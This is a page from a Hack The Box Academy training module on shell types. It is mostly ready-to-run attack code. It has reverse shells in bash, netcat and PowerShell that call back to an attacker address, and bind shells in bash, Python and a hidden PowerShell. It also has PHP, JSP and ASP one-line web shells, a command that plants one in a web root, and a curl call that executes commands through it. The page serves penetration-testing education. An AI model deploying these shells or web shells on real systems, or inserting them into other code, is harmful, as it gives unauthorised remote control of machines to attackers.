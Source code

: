 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/77/section/725
// Platform Version: V1
// Module ID: 77
// Module Name: Getting Started
// Module Difficulty: Fundamental
// Section ID: 725
// Section Title: Types of Shells
// Page Title: Getting Started
// Page Number: 10
-->

# Types of Shells

**Module Name:** Getting Started **Page Number:** 10

#### GETTING STARTED

# Types of Shells

## Reverse Shell

#### Netcat Listener

``` shell-session
ndefstathiou@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
```

#### Connect Back IP

``` shell-session
ndefstathiou@htb[/htb]$ ip a

...SNIP...

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none
    inet 10.10.10.10/23 scope global tun0
...SNIP...
```

#### Reverse Shell Command

``` bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

``` powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

``` shell-session
ndefstathiou@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Bind Shell

#### Bind Shell Command

``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

``` python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

``` powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

#### Netcat Connection

``` shell-session
ndefstathiou@htb[/htb]$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Upgrading TTY

``` shell-session
ndefstathiou@htb[/htb]$ python -c 'import pty; pty.spawn("/bin/bash")'
```

``` shell-session
www-data@remotehost$ ^Z

ndefstathiou@htb[/htb]$ stty raw -echo
ndefstathiou@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
```

``` shell-session
ndefstathiou@htb[/htb]$ echo $TERM

xterm-256color
```

``` shell-session
ndefstathiou@htb[/htb]$ stty size

67 318
```

``` shell-session
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

## Web Shell

#### Writing a Web Shell

``` php
<?php system($_REQUEST["cmd"]); ?>
```

``` jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

``` asp
<% eval request("cmd") %>
```

#### Uploading a Web Shell

``` bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

#### Accessing Web Shell

![https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

``` shell-session
ndefstathiou@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

####